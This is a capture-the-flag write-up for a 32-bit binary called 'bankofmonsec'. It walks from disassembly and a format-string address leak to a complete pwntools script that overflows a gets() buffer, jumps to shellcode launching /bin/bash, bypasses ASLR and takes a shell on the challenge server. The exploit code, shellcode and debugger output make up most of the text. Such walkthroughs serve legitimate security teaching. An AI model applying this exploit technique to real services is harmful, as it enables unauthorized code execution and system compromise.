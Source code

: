 ## Challenge writeup

In this challenge, you are given the executable `./bankofmonsec`. The program gives the following prompt when running it:
```
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: leo
Hello, leo
password: asdf
Sorry, no flag for you :(
```
Most of the logic for this program occurs within the function `login`
```
Dump of assembler code for function login:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   esi
   0x080491fb <+5>:     push   ebx
   0x080491fc <+6>:     sub    esp,0x3c
   0x080491ff <+9>:     call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049204 <+14>:    add    ebx,0x2dfc
   0x0804920a <+20>:    lea    eax,[ebx-0x1ff8]
   0x08049210 <+26>:    push   eax
   0x08049211 <+27>:    push   0x1
   0x08049213 <+29>:    call   0x80490d0 <__printf_chk@plt>
   0x08049218 <+34>:    add    esp,0x4
   0x0804921b <+37>:    lea    esi,[esp+0x14]
   0x0804921f <+41>:    push   esi
   0x08049220 <+42>:    call   0x8049090 <gets@plt>
   0x08049225 <+47>:    add    esp,0x8
   0x08049228 <+50>:    lea    eax,[ebx-0x1ff1]
   0x0804922e <+56>:    push   eax
   0x0804922f <+57>:    push   0x1
   0x08049231 <+59>:    call   0x80490d0 <__printf_chk@plt>
   0x08049236 <+64>:    add    esp,0x8
   0x08049239 <+67>:    push   esi
   0x0804923a <+68>:    push   0x1
   0x0804923c <+70>:    call   0x80490d0 <__printf_chk@plt>
   0x08049241 <+75>:    mov    DWORD PTR [esp],0xa
   0x08049248 <+82>:    call   0x80490c0 <putchar@plt>
   0x0804924d <+87>:    add    esp,0x8
   0x08049250 <+90>:    lea    eax,[ebx-0x1fe9]
   0x08049256 <+96>:    push   eax
   0x08049257 <+97>:    push   0x1
   0x08049259 <+99>:    call   0x80490d0 <__printf_chk@plt>
   0x0804925e <+104>:   add    esp,0x4
   0x08049261 <+107>:   lea    eax,[esp+0x28]
   0x08049265 <+111>:   push   eax
   0x08049266 <+112>:   call   0x8049090 <gets@plt>
   0x0804926b <+117>:   add    esp,0x44
   0x0804926e <+120>:   pop    ebx
   0x0804926f <+121>:   pop    esi
   0x08049270 <+122>:   ret
```

From this assembly listing, you can see that both of the user inputs are taken using the function `gets` which makes the program vulnerable to buffer overflows. We can see the security protections enabled by using `checksec` from pwntools.
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
One further observation is that the call to `printf` at `login+59` is vulnerable to a format string injection.
```
Name: %x %x %x
Hello, ff939b78 f7da343b f7f19d20
```
There are several ways to approach this challenge, but the following method was the simplest way that I have found. Because there is no NX bit set, we can write our own shellcode to the stack and then jump to it. To do this, we need to find the offset of EIP on the stack and then overwrite it to the address where we placed our shellcode. 
```
pwndbg> break *login+122
Breakpoint 1 at 0x8049270
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r < <(python2 -c "print 'aaa\n' + 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'")
...
pwndbg> info frame
Stack level 0, frame at 0xffffd210:
 eip = 0x8049270 in login; saved eip = 0x61616169
 called by frame at 0xffffd214
 Arglist at 0xffffd208, args:
 Locals at 0xffffd208, Previous frame's sp is 0xffffd210
 Saved registers:
  eip at 0xffffd20c
pwndbg> cyclic -l 0x61616169
32
pwndbg> x/s $esp
0xffffd20c:     "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
```
To place and jump to our shellcode, we'll need a pad of 32 bytes, followed by the bytes `(0xffffd20c+4)` and our shellcode. I'll be using the following shellcode which executes `execve("/bin/bash", ["/bin/bash", "-p"], NULL)`:
```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
I will also include a small [NOP sled](https://reverseengineering.stackexchange.com/questions/16706/what-causes-the-need-for-nop-sleds) using the bytes `\x90` so that we don't have to get the address perfect, but it shouldn't matter in this instance. 
```
pwndbg> r < <(python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x9
9\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'")
Starting program: /mnt/d/Users/leo/Documents/MEGA/test/bankofmonsec < <(python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'")
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: Hello, aaa
process 325 is executing new program: /usr/bin/bash
[Inferior 1 (process 325) exited normally]
```

However, when we try to use this exploit outside of GDB, our payload does not work any more, and we instead get a Segmentation fault.
```
$ python2 -c "from pwn import p32; print 'aaa\n' + 'a'*32 + p32(0xffffd20c+4) + b'\x90'*15 + b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\
x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'" | ./bankofmonsec
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: Hello, aaa
Segmentation fault
```
This is the result of [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), as - more often than not - the address `0xffffd20c+4` we have hardcoded will not point to the start of our shellcode. A common approach to get around this is to include a large NOP sled and use brute force. However, we can bypass this using a memory leak from the format string injection I mentioned earlier. By passing `%p` as our name, we can find an address on the stack, and then calculate the value to overwrite EIP with relative to that. GDB disables ASLR by default, and so running our program in that will let us find the correct offset.
```
pwndbg> break *login+122
Breakpoint 1 at 0x8049270
pwndbg> r
Starting program: /bankofmonsec
+----------------------+
|                      |
|    Welcome to the    |
|    Bank of MonSec    |
|                      |
+----------------------+
Please log in to continue.

Name: %p
Hello, 0xffffd208
password: asdf
...
pwndbg> p $esp
$1 = (void *) 0xffffd20c
```
Here, the address of the stack pointer is four bytes above the address leaked by printf. Therefore, we can make our payload bypass ASLR by overwriting the value of EIP saved on the stack with the address leaked from printf plus 8. Here is the solution script that I used:
```python
from pwn import *

nop = b'\x90'
shellcode = b'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'

#p = process('./bankofmonsec')
p = remote('192.168.0.14', 9000)

p.recvuntil(b'continue.')
p.recvline()
p.recvline()
p.send("%p\n")
addr = int(p.recvline().split()[-1], 16)

p.send('a'*32 + p32(addr+8) + nop*15 + shellcode + '\n')
p.interactive()
```
```bash
$ python2 solution.py
[+] Opening connection to 192.168.0.14 on port 9000: Done
[*] Switching to interactive mode
password: $ ls
Dockerfile  Makefile  bankofmonsec  bankofmonsec.c  flag.txt
$ cat flag.txt
FLAG{f0rm47_57r1n65_4r3_u53ful}
```
